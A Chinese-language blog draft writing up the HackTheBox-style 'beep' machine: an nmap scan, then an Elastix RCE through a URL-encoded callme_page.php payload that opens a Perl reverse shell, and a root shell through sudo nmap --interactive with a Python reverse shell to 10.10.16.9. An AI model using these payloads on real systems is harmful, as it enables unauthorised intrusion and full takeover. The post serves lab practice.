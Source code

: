 
+++
title = 'beep'
date = '2023-12-07T16:08:29+08:00'
draft = true
+++
## 信息收集

```
nmap -vv -sV -sT -T 4 10.129.1.226
```

```
PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?      syn-ack
80/tcp    open  http       syn-ack Apache httpd 2.2.3
110/tcp   open  pop3?      syn-ack
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)
143/tcp   open  imap?      syn-ack
443/tcp   open  ssl/https? syn-ack
993/tcp   open  imaps?     syn-ack
995/tcp   open  pop3s?     syn-ack
3306/tcp  open  mysql?     syn-ack
4445/tcp  open  upnotifyp? syn-ack
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
Service Info: Host: 127.0.0.1
```

访问80端口，会被重定向到443端口，使用了低版本的TLS协议。在火狐里输入about:config,搜索tls.version,将tls最小的支持版本改为TLS V1

![image-20230503002320882](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230503002320882.png)

后续就可以无视风险正常访问了:laughing:

![image-20230502172812207](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230502172812207.png)

## 漏洞利用

这里查询了一下elastix的漏洞

```shell
searchsploit elastix
```

有个RCE,贴上exp

```
https://10.129.1.226/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.9%3a1234%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```

这里需要注意，必须按照payload的格式对一些特殊符号url编码，第一次利用的时候url decode成明文，发现并没有收到shell。

拿到shell后利用python创建个交互式终端

```
python -c 'import pty; pty.spawn ("/bin/bash")'
```

## 权限提升

```
sudo -l
```

这里卡住了，查了下可以利用nmap的---interactive提权

```
sudo nmap --interactive
nmap> !python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
┌──(root💀Chinchin)-[/usr/…/modules/exploits/unix/http]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.9] from (UNKNOWN) [10.129.1.226] 33372
bash: no job control in this shell
bash-3.2# whoami
root

```

